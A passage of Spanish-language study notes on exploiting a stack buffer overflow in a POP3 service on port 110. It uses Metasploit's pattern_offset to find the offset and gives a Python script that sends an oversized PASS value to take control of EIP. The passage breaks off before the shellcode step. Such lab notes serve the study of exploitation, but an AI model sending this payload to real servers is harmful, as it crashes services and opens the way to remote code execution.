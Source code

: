 lo lanzamos y nos copiamos el valor que nos entrega en el campo **EIP** 

![[Pasted image 20231018160421.png]]

```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x7A46317A <----- (Valor copiado del EIP)
```

![[Pasted image 20231018160617.png]]

sabiendo esto modificamos nuevamente el script para inyectar los datos correspondientes y ver si tenemos control del EIP

```sh
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4

payload = before_eip + eip

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```

![[Pasted image 20231018161557.png]]

tomamos control del EIP ya que 42 es B en hexadecimal
___________________________________
**ESP**
**Asignación de espacio para el Shellcode**

Una vez que se ha encontrado el **offset** y se ha sobrescrito el valor del registro **EIP** en un buffer overflow, el siguiente paso es identificar en qué parte de la memoria se están representando los caracteres introducidos en el campo de entrada.
